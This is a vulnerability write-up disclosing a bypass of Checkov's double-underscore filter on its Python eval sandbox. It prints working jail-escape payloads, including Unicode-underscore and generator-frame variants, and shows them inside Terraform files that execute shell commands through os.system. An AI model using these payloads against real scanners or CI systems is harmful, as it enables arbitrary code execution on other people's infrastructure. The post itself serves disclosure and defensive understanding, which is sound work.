

## The Quick Summary
* This blog post describes a vulnerability in the infrastructure-as-code scanning tool, [Checkov](https://github.com/bridgecrewio/checkov) that allows for arbitrary code execution if run on untrusted Terraform files. 
* The vulnerability involves escaping from a Python sandbox and evading a check that blocks double-underscore attributes. We'll walk through two bypasses, one involving unicode characters, and one that involves a trick with generators and digs deep into python internals.
* I was able to use this vulnerability to gain RCE on SaaS code scanning product. This CVE serves as a reminder that third-party linting tools should be executed with caution, idealy within a sandbox. 
## Background - An Earlier CVE in Checkov
Back in 2021, I was browsing through the source code of the infrastructure-as-code scanning tool , when I stumbled across a few interesting [lines of code](https://github.com/bridgecrewio/checkov/blob/65b28a4810e2ce668a063ea0077cab349852cba6/checkov/terraform/variable_rendering/evaluate_terraform.py#L46).

```python
def _try_evaluate(input_str):
    try:
        return eval(input_str, {"__builtins__": None}, SAFE_EVAL_DICT) # nosec
    except Exception:
      ...
```

Show this to any security nerd who is familiar with Python, and they’ll immediately recognize it - this is a classic example of an unsafe python jail. I’m not entirely sure where the idea originated, but this specific invocation of eval is often considered to be a “safe eval” function. The thinking is that if you remove the builtins (second argument to eval) and replace the locals (third argument), the code that is passed into `eval` won’t have access to anything interesting, and thus can’t do anything dangerous.

This is, of course, not the case. Python allows for a lot of introspection and this jail leaves plenty of room for escape. The typical approach is to recover the builtins, which can usually be achieved by chaining together a series of [dunder](https://docs.python.org/3/reference/lexical_analysis.html#reserved-classes-of-identifiers) attributes. You start with `{}.__class__.__bases[0].__`, which gives you a reference to the `object` class. From there, you look through `.__subclassess__()` around until you find something that gives you access to `__builtins__`. Lastly, you grab  `__import__` and use it to import `os.system`, then execute shell commands. Using list comprehensions, this can all be done within a single expression. A full python jail escape looks something like this: 

`
[x for x in {}.__class__.__bases__[0].__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system(‘whoami’)
` [^1]


In the case of Checkov, this code was being used to evalute Terraform arguments. The vulnerability could be exploited by running `checkov -f` on a Terraform file containing the jail escape, such as the one below:
```hcl
resource "random_pet" "server" {
  keepers = {
    ami_id = "[x for x in {}.__class__.__bases__[0].__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('date >> /tmp/pwned_from_checkov')"
  }
}
```

I sent this POC to the Checkov maintainers through their responsible disclosure program.

## An Incomplete Fix
After assigning [CVE-2021-3040](https://nvd.nist.gov/vuln/detail/CVE-2021-3040) to this issue, the Checkov maintainers decided to fix this vulnerability by blocking any input string that contained a double underscore, theoretically blocking the ability to access the attributes neccesary for the exploit.
```
def evaluate(input_str):
    if "__" in input_str:
        logging.warning(f"got a substring with double underscore, which is not allowed. origin string: {input_str}")
        return input_str
    return eval(input_str, {"__builtins__": None}, SAFE_EVAL_DICT)  # nosec
```

This fix didn’t sit well with me - it seemed plausible that there was a way to execute arbitrary code without using a double underscore. I didn’t have POC, nor the time to research the problem further, so I decided to move on. Years later, this project caught my attention again and I noticed that `eval` code had not changed. I decided to spend some time looking for a bypass to the underscore check. After a bit of research and experimentation, I was able to produce two separate exploits that bypassed this check.

## Bypass One: Unicode Underscores
The first solution is a neat little party trick. Python allows the use of non-ascii characters in code, but applies a process called [NFKC Normalization](https://peps.python.org/pep-3131/) to translate these characters into their canonical ascii representation when they are processed by the interpretter. There are a handful of non-ASCII "underscores" that will be normalized by this process, and can be used as a drop-in replacement for an underscore in most places in Python code. One example is the [fullwidth low line](https://www.compart.com/en/unicode/U+FF3F). Crucially, these characters are normalized by the Python interpreter if they appear within code, but will remain untouched if they appear in strings. For example:

```python
>> # Example character that will normalize to an underscore
>>> chr(0xFE4D)
'﹍'
>>> underscore_example_variable = 123
>>> underscore﹍example﹍variable
123
>>> '_' in 'no﹍underscores﹍here'
False
```

This property allows us to bypass the `__ in input_str` check: these characters will be normalized _after_ the check, when the `eval` executes. We can reuse the previous exploit, swapping in a unicode character in place of the underscores:
```hcl
resource "random_pet" "server" {
  keepers = {
    ami_id = "[x for x in {}._﹎class_﹎._﹎bases_﹎[0]._﹎subclasses_﹎() if x._﹎name_﹎ == 'catch_warnings'][0]()._module._﹎builtins_﹎['_'+'_import_'+'_']('os').system('date >> /tmp/unicode-example')"
  }
}
```

Running Checkov against this file again, gives us arbitrary code execution! Wow, that was quite easy🎉

## Bypass Two: Walking Up the Call Stack
The unicode bypass felt a bit unsatisfying. I anticipated that the maintainers might fix this issue by simply normalizing unicode characters, so I decided to see if I could come up with a better exploit. Is there a clever way to sneak around the dunder check assuming no special unicode characters are allowed? 

As it turns out, yes! Here’s a sneak peak of the full exploit, then let’s talk about how it works:

```
(lambda gen: (gen:=(gen.gi_frame.f_back.f_back.f_globals for _ in [1])))(None).send(None).get('_'+ '_builtins_' +'_')['_'+'_import_'+'_']('os').system(‘whoami’)
```

#### Generators
The execution environment in the `eval` is very limited: no builtins, no imports, no `getattr`, only a handful of functions available to be called . I spent a while exploring potential exploits involving f-strings before deciding on a new path. Generators are a way of returning a sequence of items - if you've ever seen the `yield` keyword in python code, you are familiar. Another handy feature of Python is [generator expressions](https://peps.python.org/pep-0289/), which provide shorthand for creating a generator similar to list comprehensions. The syntax is `(x for x in [1,2,3])`, which is conveniently allowed within the restricted `eval` environment:

```
eval('(x for x in (1,2,3))', {'__builtins__': None}, {})
<generator object <genexpr> at 0x104f007c0>
```
Why is this useful? What we're really after is the generator's `gi_frame` attribute (note the lack of a double underscore), but in order to explain that we need to take a quick tangent into Python internals to learn about Frames.

### Frames

Every function call in Python creates a new [frame object](https://docs.python.org/3/reference/datamodel.html#frame-objects) that is  pushed onto the interpreter’s call stack. A frame holds a reference to the function’s compiled bytecode (`f_code`), the current instruction index (`f_lasti`), the function’s global and local namespaces, and several other execution details. Frames are linked together through the `f_back` attribute, which points to the caller’s frame, forming a linked list that mirrors the call stack.

Generators use a Frame object for holding execution state, accessible via the `gi_frame` attribute. The frame is created when the generator is first advanced (by calling `next()` or `.send()`). After each yield, the frame’s state is suspended, allowing it to be resumed on the next iteration. A generator’s frame also contains a `f_back` reference, which points to the caller's frame.

### A Path To an Exploit

Putting all these pieces together - we should be able to use a generator to escape our python jail and recover the builtins. A generator expression will allow us to create a generator object, from which we can access its frame via `generator.gi_frame`. This frame's globals and builtins will be empty because it was created from within the `eval` context, but we can use its `f_back` attribute to walk upwards on the call stack until we reach a frame that a reference to the builtins.



The exploit code would essentially be:
```python
(i for i in [1,2,3])            # Generator Expression
.gi_frame.f_back.f_back         # Access frame, walk up two frames
.get('__builtins__')            # Grab builtins
['__import__'](os)`             # Grab import, run code.
```

If only it were so simple! There is one detail that makes this exploit quite a bit more complicated...

### A Missing `f_back`
If you try to run the code above, you'll notice the problem. The generator's `gi_frame` has an empty `f_back` pointer, which means no walking up the call stack, and no access to the builtins. This is the case for all generators - the `f_back` pointer is cleared when the generator is put in a suspeded state, after it yields. You can see this happening in the Python [source code](https://github.com/python/cpython/blob/3.10/Objects/genobject.c#L217-L221) [^2] 

```c
result = _PyEval_EvalFrame(tstate, f, exc);
tstate->exc_info = gen->gi_exc_state.previous_item;
gen->gi_exc_state.previous_item = NULL;

/* Don't keep the reference to f_back any longer than necessary. It
* may keep a chain of frames alive or it could create a reference
* cycle. */
assert(f->f_back == tstate->frame);
Py_CLEAR(f->f_back);
```

This does give us a window though - the `f_back` pointer is free for the taking while the generator is running, before the `yield`. This code snippet demonstrates our opportunity:
```python
g = None # Varible that will hold the generator

def generator():
  # From within the generator, print the frame's f_back
  print(f"f_back within the generator: {g.gi_frame.f_back}")
  yield 1
    
g = generator()             # Create the generator
g.send(None)                # Start the generator
print(f"f_back after the yield: {g.gi_frame.f_back}")
```
Running this code:
```
f_back within the generator: <frame at 0x1049df690, file '<python-input-0>', line 9, code <module>>
f_back after the yield: None
```

So if we are able to get _inside_ the generator and grab the `f_back` pointer before it yields, we should be able to use that to escape! How can we achieve that? We're already super close, we just need to make a slight modification of the above code.

### A Generator That Yields Its Own Attributes
Ok, here's the plan: We're going to make a generator that yields _its own_ `gi_frame.f_back` so that we can grab the reference before it is cleared. Similar to the above example, this involves defining a generator that references a variable in the local scope, then assigning that variable to an instance of the generator.
```python
g = None # Varible that will hold the generator

def generator():
  # From within the generator, print the frame's f_back
  yield g.gi_frame.f_back
    
g = generator()             # Create the generator
f_back = g.send(None)       # Start the generator
```
Now the challenge is to figure out how to do that from within the `eval`. We are limited to a single expression, and can't define functions or even assign variables. Thankfully, Python is a very expressive language, and you can pack a lot of madness into a single line.

Although `eval` does not allow variable assignment, we can sneak around that limitation using the walrus operator (`:=`). This will allow us to assign our generator to a variable, and reference the variable within the generator, then call `send()` to start the generator, all in one expression!

```python
>>> (gen:=(gen.gi_frame.f_back for _ in [1])).send(None)
<frame at 0x1045f4f60, file '<stdin>-3', line 1, code <module>>
```

And there we have _almost_ everything we need. But there is one final catch.

### Variable Resolution Within `eval` Statements
The expression above will work if you drop it straight into your Python REPL. However, it will not work within the restricted `eval`.
```python
>>> eval("(gen:=(gen.gi_frame.f_back for _ in [1])).send(None)", {'__builtins__': None}, {})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
    eval("(gen:=(gen.gi_frame.f_back for _ in [1])).send(None)", {'__builtins__': None}, {})
    ~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <genexpr>
TypeError: 'NoneType' object is not subscriptable
```
The difference is a subtlety in how variables are resolved within `eval`, explained [here](https://docs.python.org/3/reference/executionmodel.html#interaction-with-dynamic-features).

> The eval() and exec() functions do not have access to the full environment for resolving names. Names may be resolved in the local and global namespaces of the caller. Free variables are not resolved in the nearest enclosing namespace, but in the global namespace.

The generator is referencing `gen` as a [free variable](https://docs.python.org/3/glossary.html#term-free-variable) because it was defined in an outer scope. Within the context of the `eval` it will not be added to the global namespace, and thus will not be visible to the inner scope when the generator runs.


### Creating a Closure
To ensure that the `gen` variable stays in scope when it is later referenced by the generator, it needs to be wrapped in a [closure](https://realpython.com/python-closure/). A closure is a way of passing variables from an outer scope to an inner scope. The canonical example is nested functions, but many other things in Python create closures including generators, list comprehensions, and lambdas. All three options create a functional exploit, but the lamdba solution ends up being more elegant and readable. 

Wrapping the previous examples in a `lambda` gives us our final exploit:
`
(lambda gen: (gen:=(gen.gi_frame.f_back.f_back.f_globals for _ in [1])))(None).send(None).get('_'+ '_builtins_' +'_')['_'+'_import_'+'_']('os').system(‘whoami’)
`

There's a lot going on in that single line of Python! Here's a breakdown that shows the exploit step-by-step.


## Impact
This vulnerability allows for arbitrary code execution if Checkov is run on an untrusted file. This is particularly interesting in the context of a CI system, where `Checkov` is run against files from a pull request, potentially allowing the contributor to execute code in the CI environment (a so-called [pwn request](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)).

This vulnerability is especially concerning for any SaaS code scanning platforms that use Checkov as part of their product offering. A few weeks after the fix was released, I found one such service that was still running an outdated version of Checkov. I created a POC demonstrating code execution in their environment and submitted it to them -  they fixed the issue within a few hours. As this vulnerability demonstrates, third party tools that process user-submitted data can pose a serious risks, and idealy should be run inside a sandbox.

## The Fix: A Safer Way to Evaluate Python?
The Checkov maintainers [fixed](https://github.com/bridgecrewio/checkov/pull/7116) this issue by removing the `eval` statement and replacing it with [lmfit/asteval](https://github.com/lmfit/asteval), a "safe(ish) evaluator of Python expressions and statements". This library implements a more minimal Python interpreter by parsing then expression with `ast.Parse`, then using custom logic to evaluate the abstract syntax tree, blocking potentially dangerous attribute accesses or function calls. I'm not sure how I feel about this fix 🤔

To start, I'm a bit dubious of the _outsource your most security-critical operations to some random open source library_ pattern. Whoever is maintaining `asteval` probably isn't getting paid for it, and didn't sign up to be part of the supply chain for such a widely used tool. A certain XKCD comic comes to mind...

More specifically, I wouldn't bet on `asteval` being completely bulletproof. Sandboxing python is notoriously difficult - although `asteval`'s sandboxing strategy seems like a much smarter way to go about it, I suspect there are more undiscovered jail escapes lurking in that library. 

Python jails were a staple of CTF competitions back when I used to play. I had the time for CTFs in many years, but as part of writing this blog post I decided to review recent CTF challenges to catch up on the state-of-the-art. Firstly, I discovered that this generator trick is not new - the CTF community seems to have know about this for a while. In fact, it appeared in a challenge for [Samsung CTF 2023](https://github.com/SSTF-Office/SamsungCTF/blob/3c6760615404ea9babecffd8633ae8e96a137a41/2023_Hackers_Playground/pyjail/writeup.md). Beyond that, I was thoroughly impressed by the arsenel of tricks CTF players have developed for attacking Python jails. Suffice to say, in 2025 there is still no reliable way to implement a safe `eval` function in Python. If you find yourself in a position where you need to use `eval` or `exec`, its probably best to wrap the whole thing in an OS-level sandbox.

[^1]: Depending on where the `eval` statement occurs, `__builtins__` might either be a dictionary or a module object, which will change the exploit slightly. In the case of a module, its often neccesary to recover `__builtins__.getattr` first, then use that to access `__import__`
[^2]: This code snippet is from Python 3.10. The code in later Python versions is more convoluted, but the behavior remains the same. 
[^3]: I don't mean to knock Bridgecrew/Palo Alto specifically for this. We're all to blame - this is how modern software is built. It's totally great and nothing bad ever happens.
